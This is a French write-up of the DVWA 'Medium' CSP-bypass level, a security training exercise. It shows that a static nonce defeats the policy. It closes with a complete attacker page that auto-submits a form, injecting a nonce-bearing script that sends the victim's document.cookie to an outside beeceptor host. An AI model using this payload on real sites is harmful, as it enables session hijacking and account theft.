 # Niveau "Medium"

Le niveau "Medium" nous invite à trouver une façon de déclencher une boite de dialogue Javascript :

![](../../../../.gitbook/assets/cccabce2290fb6a5f8811fe644848b02.png)

Analysons la nouvelle politique CSP pour ce niveau :

![](../../../../.gitbook/assets/2812dead72835a747b67eedf51430293.png)

```markup
Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';
```

Soit pour la directive `script-src` :

* `'self'` : Autorise l'exécution de ressources fournies par la même origine
* `'unsafe-inline'` : Autorise les scripts de type `<script></script>` \(ou encore dans un event HTML par exemple\)
* `'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA='` : seul le script ayant ce nonce pourra être exécuté

Voyons de plus près comment fonctionne le [`nonce`](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/Content-Security-Policy/script-src):

![](../../../../.gitbook/assets/a27d7b07f73f194c7b3d45452eae360f.png)

Le nonce est donc un identifiant unique et renouvelé à chaque fois que le serveur transmet la politique CSP. De plus, il est important que ce nonce ne soit pas devinable \(guessable\) sans quoi un contournement de la politique CSP sera possible.

Un script autorisé portera alors le nonce comme ceci \(le nonce doit normalement être dynamique et changer à chaque fois\) :

```markup
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">
  // Je suis un script autorisé car je connais le nonce
</script>
```

On effectue quelques requêtes **`GET`** sur le endpoint `/csp` de DVWA : surprise le `nonce` ne change jamais :

![](../../../../.gitbook/assets/15651a92e46dc09de721eac0a66c064e.png)

Connaissant d'avance le `nonce`, il est facile de créer un script qui sera accepté par l'application :

![](../../../../.gitbook/assets/e06ebf5c290ee9493e7719a18aba4554.png)

Afin de piéger notre vicitme, nous utilisons la même technique que pour le niveau "Low" qui est de forger une page malicieuse effectuant la requête **`POST`** :

```markup
<html>
  <head>
    <title>Exploitation POST XSS</title>
  </head>

  <body>
    <p>Post reflected XSS !</p>
      <form action="http://192.168.56.203:8080/vulnerabilities/csp/" method="POST" name="postExploitXSS">
        <input type="text" name="include" value="<script nonce='TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA='>fetch('https://cspbypass.free.beeceptor.com?cookie=' + document.cookie);</script>">
        <button type="submit">Envoyer le message</button>
      </form>

    <script>document.forms['postExploitXSS'].submit();</script>
    </body>
</html>
```

Finalement, lorsque l'utilisateur \(authentifiée\) visitera notre page, l'attaquant récupérera son jeton :

![](../../../../.gitbook/assets/d7f9cc6cfa53044f5eb35f5e34af4119.png)







